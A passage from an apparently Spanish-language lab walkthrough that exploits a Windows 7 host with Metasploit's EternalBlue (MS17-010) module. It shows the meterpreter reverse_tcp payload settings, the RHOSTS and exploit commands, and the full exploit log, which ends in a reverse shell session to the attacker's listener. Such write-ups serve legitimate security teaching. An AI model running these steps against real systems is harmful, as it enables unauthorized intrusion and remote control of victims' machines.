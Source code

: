```bash
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     Tu_IP	      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

* Únicamente le debemos indicar la IP de la máquina víctima, ya todo lo demás está configurado:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
```

* Y lo ejecutamos:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on Tu_IP:4444 
[*] 192.168.1.10:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.10:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.1.10:445 - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.10:445 - The target is vulnerable.
[*] 192.168.1.10:445 - Connecting to target for exploitation.
[+] 192.168.1.10:445 - Connection established for exploitation.
[+] 192.168.1.10:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.10:445 - CORE raw buffer dump (40 bytes)
[*] 192.168.1.10:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 42  Windows 7 Home B
[*] 192.168.1.10:445 - 0x00000010  61 73 69 63 20 37 36 30 31 20 53 65 72 76 69 63  asic 7601 Servic
[*] 192.168.1.10:445 - 0x00000020  65 20 50 61 63 6b 20 31                          e Pack 1        
[+] 192.168.1.10:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.10:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.10:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.10:445 - Starting non-paged pool grooming
[+] 192.168.1.10:445 - Sending SMBv2 buffers
[+] 192.168.1.10:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.10:445 - Sending final SMBv2 buffers.
[*] 192.168.1.10:445 - Sending last fragment of exploit packet!
[*] 192.168.1.10:445 - Receiving response from exploit packet
[+] 192.168.1.10:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.10:445 - Sending egg to corrupted connection.
[*] 192.168.1.10:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.1.10:49159) at 2024-11-20 14:51:42 -0600
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
Muy bien, nos generó una sesión de **meterpreter**.
